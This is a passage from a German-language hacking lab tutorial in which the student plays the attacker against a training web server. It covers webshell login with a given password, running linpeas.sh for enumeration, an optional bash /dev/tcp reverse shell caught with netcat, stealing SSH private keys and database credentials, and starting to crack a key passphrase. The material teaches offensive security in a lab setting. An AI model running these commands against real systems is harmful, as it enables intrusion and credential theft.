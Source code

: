     eingeben. Das Passwort um für die Autorisierung der Webshell ist: "**j~82BQC\;3N<`HK~**".
    
    Sammeln Sie Informationen über den Server, indem Sie die oben genannten **Unix Befehle** verwenden um sich durch das Dateisystem zu navigieren. Die wichtigen Verzeichnisstrukturen ist im Abschnitt **Server Seite,** unter **Allgemeines / Angriff,** des Dateisystems oben beschrieben.
    
    Um die Informationssuche zu automatisieren können Sie das Skript **linpeas.sh** hochladen und ausführen. Sie können das Skript auch über die Webseite hochladen oder die Upload-Funktion der Webshell nutzen. Das Skript befindet sich nach dem Hochladen im selben Verzeichnis, wie die Webshell. Verwenden Sie folgenden Befehl verwenden zum ausführen des Skriptes.
    
    ```bash
    bash ./linpeas.sh
    ```

    ````bash  
    💡 Optional - Reverse Shell: 
    Loggen Sie sich in den Kali Linux Container ein und lassen Sie sich die IP-Adress des Containers mit dem Befehl hostname -i ausgeben. 
    Anschließend können Sie den Befehl nc -lnvp [port] ausführen. Kali Linux lauscht nun auf dem angegebenen Port nach eingehenden Verbindungen. 
    Sende Senden Sie den Befehl 
   
    bash -c "bash -i >& /dev/tcp/[client_ip]/[port] 0>&1"
   
    über die Webshell im Browser an den Server. Der Server baut dadurch eine Verbindung zu einer IP-Adresse auf angebenden Port auf und übergibt der Zieladresse ein Terminal, in dem Fall ein bash Terminal.  
    Im Terminal des Clients sollte, wenn alles funktioniert, eine Verbindung zum Webserver hergestellt worden 
    sein. Nun können Sie statt im Browser über eine Webseite Ihre Anfragen zu stellen, dies in einem Terminal tun. linpeas.sh wird bei Ausführung auf der Reverse Shell 
    koloriert bzw. formatiert angezeigt.
    ````
    
    linpeas.sh gibt Ihnen interessante Informationen, wie Systeminformationen, gefundene Dateien von Relevanz und andere nützliche Informationen wieder (farblich gekennzeichnet, wenn Sie das Skript in einem Terminal ausgeben lassen). 
    
    Suchen Sie in der Ausgabe nach Authentifizierungsinformation für die Datenbank und Schlüssel für eine SSH Verbindung.
    
    Lokalisieren Sie das SSH Verzeichnis, des Eigentümers der Schlüssel und überprüfen Sie die Rechte der Dateien. Kopieren Sie sich den privaten Schlüssel
    
    Öffnen Sie im Kali Linux Container ein Terminal um eine SSH Verbindung zum Webserver herzustellen. 
    
    ```bash
    ssh <username>@<webserver_ip_adress>
    ```
    
    Die SSH Verbindung scheint passwortgeschützt zu sein. 
    
3. **Schritt:** 😈 **(Perspektive: Angreifer/-in)**
    
    In diesem Schritt werden Sie das Passwort des privaten Schlüssels knacken.
    
    Erstellen Sie dafür eine Datei (z.b. <SSH_USERNAME>.id_rsa) im Kali Linux Container und fügen Sie den vom Webserver kopierten Schlüssel in die erstellte Datei ein. Navigieren Sie hierfür in das Homeverzeichnis.
    